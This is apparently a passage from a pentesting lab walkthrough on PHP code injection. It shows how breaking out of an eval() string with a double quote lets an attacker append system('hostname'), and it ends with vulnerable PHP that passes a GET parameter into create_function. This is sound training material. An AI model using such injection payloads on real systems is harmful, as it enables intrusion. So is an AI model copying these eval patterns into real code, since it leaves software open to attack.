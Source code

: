 
The string <code>echo "Hello hacker!!!";</code> is passed to eval. Whatever else we input after the name variable comes right after hacker and before the exclamation signs: Hello hacker@!!! (with an example of adding @ after hacker). However, if we input a double-quote, we get an error:


``` plain
Parse error: syntax error, unexpected '!', expecting ',' or ';' in /var/www/codeexec/example1.php(6) : eval()'d code on line 1 
```


That is because eval now has to evaluate the broken syntax of <code>echo "Hello hacker"!!!";</code>. We can take advantage of this by appending a command and then commenting out the remaining <code>!!!";</code>:


``` plain
name=hacker" . system('hostname');//
```


URL encode it and you will see the output:


{% img center /images/pentest/webpentester/codeinj1.png 'code injection' 'code injection 1 success' %}


This worked because what eval saw was: <code>echo "Hello hacker" . system('hostname');//!!!";</code>

**Example 2**

{% img center /images/pentest/webpentester/code2.png 'code injection' 'code injection 2' %}


PHP code:


``` php
<?php
class User{
  public $id, $name, $age;
  function __construct($id, $name, $age){
    $this->name= $name;
    $this->age = $age;
    $this->id = $id;
  }   
}
  require_once('../header.php');
  require_once('../sqli/db.php');
	$sql = "SELECT * FROM users ";

	$order = $_GET["order"];
	$result = mysql_query($sql);
  if ($result) {
		while ($row = mysql_fetch_assoc($result)) {
      $users[] = new User($row['id'],$row['name'],$row['age']);
    }
    if (isset($order)) { 
      usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
    }
	}   

		?>
<table class='table table-striped' >
		<tr>
			<th><a href="example2.php?order=id">id</th>
			<th><a href="example2.php?order=name">name</th>
			<th><a href="example2.php?order=age">age</th>
		</tr>
		<?php
```